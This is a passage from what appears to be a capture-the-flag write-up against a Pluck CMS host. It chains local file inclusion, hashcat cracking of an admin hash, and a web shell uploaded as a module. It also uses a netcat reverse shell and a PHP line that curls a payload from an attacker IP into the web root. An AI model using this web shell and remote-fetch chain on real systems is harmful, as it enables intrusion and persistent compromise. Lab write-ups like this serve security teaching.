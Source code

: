 On trying to read `/etc/passwd` it was detecting `../` 

<img src="https://i.imgur.com/7XhkRSi.png"/>

We can however view the albums on pluck cms as shown in the poc for LFI from where we can list contents of albums directory revealing `admin_backup.php`

<img src="https://i.imgur.com/jjhfFhl.png"/>

This can be read through LFI

<img src="https://i.imgur.com/R55z7HG.png"/>

And this hash can be cracked with hashcat using mode 1700 which is for SHA-512

```bash
hashcat -a 0 -m 1700  ./admin_hash.txt /usr/share/wordlists/rockyou.txt --force
```

<img src="https://i.imgur.com/lDkoqZv.png"/>
<img src="https://i.imgur.com/w0Mq1cu.png"/>

With this password we can login as admin on pluck 

<img src="https://i.imgur.com/oq4LLkY.png"/>

Now we can use the previous RCE exploit by uploading a module by zipping a php file having GET parameter being passed into `system` function for executing commands

```bash
<?php system($_GET['cmd']); ?>
```

<img src="https://i.imgur.com/Ogf0JhC.png"/>

But this file will be deleted within 1-2 minutes so there's probably a cleanup script, for getting a shell, upload and execute netcat to get a reverse shell as `svc_web`

<img src="https://i.imgur.com/LDeCPkR.png"/>

Again as soon as the php file gets removed our shell will die

<img src="https://i.imgur.com/m6rR8Ea.png"/>

So what we can do here is to upload a php file where the cleanup script isn't deleting the files from, checking the permissions of `C:\xampp`, we have write access on this directory, so we can upload a php file there and then get a shell

<img src="https://i.imgur.com/1T3TAzh.png"/>

```bash
<?php system('curl http://10.10.16.17/uwu.php -o C:/xampp/htdocs/uwu.php'); ?>
```

<img src="https://i.imgur.com/OqdYOOt.png"/>
